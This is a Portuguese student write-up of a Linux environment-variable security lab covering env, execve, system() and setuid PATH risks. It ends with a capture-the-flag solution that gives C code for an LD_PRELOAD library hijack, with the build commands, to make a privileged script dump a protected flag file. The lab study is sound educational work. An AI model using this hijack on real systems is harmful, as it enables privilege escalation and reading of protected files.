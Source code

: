 ### LAB SEMANA 4

## Task 1

Ao utilizarmos os comandos <b>printev</b> ou <b>env</b> poderemos ver as varáveis ambiente, mas falando de algumas variáveis ambiente específicas, tal como PWD, teremos de utilizar os comandos <b>env|grep PWD</b> ou <b>printenv PWD</b>.

No caso de definir ou cancelar variáveis ​​de ambiente teremos de usar o <b>export</b> e <b>unset</b>. Lembrando que estes 2 comandos não sáo programas separados: são 2 comandos internos do Bash.


## Task 2

Começaremos esta task ao compilar o programa myprintenv.c ("gcc myprintenv.c").

De seguida modificamos esse código, retirando o comentário ("printenv()") que se encontra no processo pai, comentando essa mesma função no processo filho.
Ao compilar de novo o código, reparamos que não houve nenhuma diferença. Para comprovar essa indiferença utilizamos o comando diff e comprovamos que nada foi impresso. 
Logo concluímos que todas as variáveis de ambiente do pai sáo herdados pelo filho.

## Task 3

Com esta task, o nosso objetivo é analisar o comportamento das varáveis ambiente quando o programa é executado via a função execve().

Esta mesma função tem como objetivo chamar um sistema para carregar um novo comando e mais tarde executá-lo. 

Ao executarmos o ficheiro <b>myenv.c</b>, com a expressão <b>"NULL"</b> no terceiro parâmetro da função, as variáveis ambiente não vão ser registadas nesse parâmetro, uma vez que este é nulo. Logo o return é nulo.

Ao substituírmos <b>"NULL"</b> pela variável <b>"environ"</b>, as variáveis de ambiente serão registadas.

## Task 4

Com esta task, o objetivo é demonstrar como as variáveis de ambiente são afetadas quando um novo programa é executado via a função 'system()'. Esta função começa por iniciar um shell e solicita a este que execute o comando especificado como um argumento.

Ao executarmos o ficheiro, o programa chama 'system("/usr/bin/env")', esse executa o comando <b>'/usr/bin/env'</b>. O comando 'env' é utilizado para exibir as variáveis ambiente do processo atual, ou seja, vai iniciar u novo processo na shell que vai exeutar 'env', eset por sua vez exibe as variaveis ambiente o programa em C que chamou em 'system()'.

## Task 5

O Objetivo desta task é entender como as variáveis de ambiente definidas num shell(processo pai) afeta um programa com permissões \setuid, quando este é executado como um processo filho e entender como isto afeta a segurança do sistema.

O programa fornecido permite listar todas as variáveis de ambiente em um processo. Compilamos este programa e definmos as permissões \setuid neste, e em seguida, definir algumas variáveisde ambienteno shell. Quando o programa \setuid é executado  partir do shell, coseguimos observar que as variáveis de ambiente definidas no shell pai estão disponiveis para o programa \setuid (processso filho).
 
## Task 6

O objetivo desta task é demonstrar um problema de segurança com programas \setuid que chamam a função 'system()'. A função 'system()' executa um comando na shell, mas essa pode ser perigosa quando usadas em programas \setuid, pois este pode ser manipulado por variaveis de ambiente, como a variável<b>PATH</b>, esta variavel pode fazer com que o programa \setuid execute um comando malicioso em vez do pretendido.

Com esta task conseguimos perceber que os programas \setuid que chamam a função 'system()' se não forem utilizados corretamente pode levar a vulnerabilidades de segurança, permitindo assim que um atacante execute comandos com privilegios root.



## CTF 2 - Linux Environment

Ao abordar o CTF, a primeira ação após a conexão com o servidor foi analisar os arquivos presentes e verificar as suas permissões. Na pasta principal <b>"/home/flag"</b>, que tinha acesso apenas para leitura, identificamos diversos arquivos, nomeadamente o <b>"my-script.sh"</b>. Este script, além de utilizar variáveis de ambiente, é executado constantemente a cada minuto. O executável <b>"reader"</b> é derivado do arquivo "main.c". De seguida, encontramos um diretório chamado "tmp", que é usado para criação de arquivos temporários. Decidimos então criar um arquivo <b>"teste1.txt"</b> neste local para registar a saída de dados. Para garantir total acesso, aplicamos o comando <b>"chmod 777 teste1.txt"</b>. Finalmente, criamos o <b>"teste1.c"</b> para nos auxiliar na solução deste desafio.

### O código <b>teste1.c</b> é deste formato:

```c++
#include <stdlib.h>

int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/teste1.txt");
    return 0;
} 
```

De seguida decidimos compilar o programa utilizando o comando <b>gcc -fPIC -g -c teste1.c</b> e após isso corremos <b>gcc -shared -o teste1.so teste1.o -lc</b>.

Mas para concluirmos, tivemos de alterar a variável de ambiente <b>LD_PRELOAD</b> para, neste caso, <b>tmp/teste1.so</b>, utilizando os comandos:

<b>echo 'LD_PRELOAD=/tmp/teste1.so' > env</b>
<b>cat env</b>

A seguir tivemos de esperar um minuto para que a flag tivesse no nosso ficheiro, neste caso o <b>teste1.txt</b>.